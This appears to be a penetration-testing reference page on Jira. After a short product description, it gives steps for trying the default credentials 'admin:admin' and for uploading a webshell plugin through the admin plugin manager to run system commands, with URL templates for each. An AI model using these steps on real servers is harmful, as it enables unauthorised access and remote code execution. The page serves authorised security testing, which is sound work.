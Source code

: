 # Web applications - Software Jira

Jira is a proprietary issue tracking product developed in Java by Atlassian and
initially released in 2002 which allows bug tracking and agile project
management.

According to Atlassian, Jira is used for issue tracking and project management
by over 75,000 customers in 122 countries.

### Login prompt & default credentials

Access the logon prompt at the URL below and try the default SDK credentials
`admin:admin`.

```
<http | https>://<HOST | IP>/login.jsp
```

### Administrator interface to RCE

Upload the `atlassian-webshell-plugin\atlplug.jar` through the admin web
interface:

```
<http | https>://<HOST | IP>/plugins/servlet/upm
```

Then start and access it to execute system command:

```
<http | https>://<HOST | IP>/plugins/servlet/com.jsos.shell/ShellServlet
```
